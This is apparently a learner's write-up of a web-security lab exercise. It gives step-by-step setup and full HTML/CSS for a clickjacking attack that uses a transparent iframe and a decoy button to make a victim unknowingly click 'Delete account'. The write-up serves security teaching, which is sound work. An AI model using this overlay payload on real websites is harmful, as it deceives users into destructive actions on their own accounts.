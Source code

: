 

# Clickjacking Attack Writeup — How I Did It

I had to trick a user into clicking the **Delete account** button on the target website without them realizing it. To do that, I used a transparent iframe and a fake button to overlay on top. Here’s exactly how I set it up:

1. First, I logged into my account on the target site to make sure I had a valid session.

2. Then I went to the exploit server page where I could create my malicious HTML.

3. I copied this template into the body of the exploit server page:

   ```html
   <style>
       iframe {
           position: relative;
           width: 500px;
           height: 700px;
           opacity: 0.1;  /* semi-transparent for now */
           z-index: 2;
           cursor: pointer;
       }
       div {
           position: absolute;
           top: 300px;
           left: 60px;
           z-index: 1;
           font-size: 24px;
           background: lightgray;
           width: 100px;
           height: 30px;
           text-align: center;
           line-height: 30px;
           user-select: none;
           cursor: pointer;
       }
   </style>

   <div>Test me</div>
   <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
   ```

4. I replaced `YOUR-LAB-ID` in the iframe’s `src` attribute with my actual lab ID to point it to the target page.

5. I chose `500px` width and `700px` height for the iframe, which fits the page nicely.

6. The div with “Test me” acts as a decoy button. I positioned it with `top: 300px` and `left: 60px` so it sits exactly over the **Delete account** button inside the iframe.

7. At first, I set the iframe’s opacity to `0.1` so I could see the iframe content faintly and make sure the div lined up perfectly with the button.

8. After saving the exploit page and viewing it, I hovered over “Test me” and saw the cursor change to a pointer — which meant my div was correctly positioned and clickable.

9. I adjusted the `top` and `left` values a bit until it matched perfectly, so clicking “Test me” would actually click the hidden **Delete account** button.

10. Once everything was aligned, I changed the div text from “Test me” to **“Click me”** to make it more tempting.

11. Then I lowered the iframe opacity to `0.0001` — basically invisible but still clickable — and saved it again.

12. Finally, I clicked **Deliver exploit to victim** to send this page.

When the victim clicks **Click me**, they’re actually clicking the hidden **Delete account** button inside the transparent iframe, completing the attack.

**Important:** I was careful NOT to click the button myself during testing, or else the lab would break and I’d have to wait for a reset.

